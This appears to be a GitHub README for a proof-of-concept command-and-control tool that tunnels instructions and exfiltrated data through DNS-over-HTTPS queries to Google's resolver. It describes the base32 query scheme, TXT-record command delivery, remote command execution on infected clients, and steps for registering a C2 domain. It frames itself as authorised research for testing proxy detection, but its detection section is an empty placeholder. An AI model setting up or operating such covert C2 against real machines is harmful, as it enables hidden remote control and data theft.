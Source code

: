 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Architecture
![image](https://github.com/user-attachments/assets/e0e0c705-e5a2-4934-b265-f70e39ca668b)  

The python program on the client side sends HTTPS request (TCP/443) to DoH Server to resolve a destination domain where the c2 is hosted, e.g send.example.com.co using a  the legit DOH server, json query like https[:]//dns.google.com/resolve?name=google.com&type=TXT  
An attacker can use the part which is between the name and & from the url to inject txt record which is not bigger than 512 bytes of size.  Example: https[:]//dns.google.com/resolve?name=SINGLE-1-K5EE6QKNJEFA====.send.example.com.co&type=TXT  
1. '**SINGLE-1-K5EE6QKNJEFA====**' is base32 encoded query (K5EE6QKNJEFA====  is basically WHOAMI
)  
2.send.example.com.co => the DNS c2 server.  
  
The dns.google.com is instructed to query the send.example.com.co DNS server for the TXT record.  
The DNS server send.example.com.co  returns back txt record in which there are instructions what the client needs to perform next. Bellow is example it the answer section of the response are the instructions the client/malware will execute.  

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.  

Only google DoH is used.  

# Scenario 1 - Using Public DoH Server
![image](https://github.com/user-attachments/assets/d26b3309-d164-4344-8dcb-94c10e7e6291)

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)  
For server side linux.  

**1. Client Side**  
    Install Python >=3.8 from the official website or your package manager.  
     Install the requests library using pip:    
     **pip install requests**
**2. Server side** only Linux  
    Install the dnslib library using pip
    **pip install dnslib**  

**3. Register domain**  
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/26f16ed6-1a45-4b1c-8ddc-cac2287eba24)

Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain and server Public IP
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 3.  

if __name__ == "__main__":
    domain_name = "send.examples.com.co"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)


**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/dec32aca-60b0-415a-a616-49c14a21906b)

Note instead of the  examples.com.co you should use your domain name  
Run: python3 doh_server.py


# Detection Tips TODO
